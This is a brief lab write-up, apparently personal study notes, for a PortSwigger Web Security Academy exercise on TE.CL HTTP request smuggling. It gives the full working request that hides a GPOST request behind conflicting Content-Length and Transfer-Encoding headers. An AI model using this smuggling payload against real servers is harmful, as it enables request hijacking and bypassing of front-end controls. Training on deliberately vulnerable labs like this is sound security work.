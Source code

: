 https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

![[Pasted image 20250818120825.png]]
lj

``` HTTP
POST / HTTP/1.1
Host: 0a3a0027042671d380d6c118008300f6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

![[Pasted image 20250818010732.png]]


[Explained](https://www.youtube.com/watch?v=kIRIV-BwBTE&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=2&ab_channel=JarnoTimmermans)
